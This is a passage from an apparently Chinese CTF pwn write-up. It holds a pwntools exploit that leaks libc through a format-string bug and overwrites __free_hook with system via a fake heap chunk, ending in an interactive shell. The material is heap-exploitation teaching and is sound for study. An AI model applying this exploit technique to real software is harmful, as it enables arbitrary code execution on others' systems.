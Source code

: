 此时的payload

```python
from pwn import *
context.log_level='debug'
p=process('./a')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
gdb.attach(p,'b *$rebase(0xec6)\nc')#ec6
p.recvuntil('first,tell me your name.\n')
p.send('%20$p')

p.recvuntil('\x78')
leak_addr=int(p.recv(12),16)
print('leak_addr------------->',hex(leak_addr))
sleep(0.2)
libc_base=leak_addr-0x21c87
print('libc_base------------->',hex(libc_base))

free_hook=libc_base+libc.symbols['__free_hook']
system_addr=libc.symbols['system']+libc_base
fake_chunk1=p64(0)*4+p64(free_hook)
print(hex(system_addr))
p.recvuntil('How many pieces of data?\n')
p.sendline('1')
p.send(fake_chunk1)

sleep(0.2)
p.sendline('4')

p.recvuntil('[+++++++++++++++++++++++++++++++++++++++++++++++++++++++++]\n')
p.sendline('167776256')#malloc(0)
p.sendline('167776257')#malloc(1)
p.sendline('201326593')#free(1)
p.sendline('184549376')#memcpy(0)
p.interactive()
```

然后我们只需要两次malloc，就可以申请到一个位置在\_\_free_hook地址上的堆块。

接着我们用memcpy函数把system的地址写在\_\_free_hook堆块里（效果如下），此时\_\_free_hook指向的就是system了。

<img src="/upload/img/image-20220514154036178.png" alt="image-20220514154036178" style="zoom:50%;" />
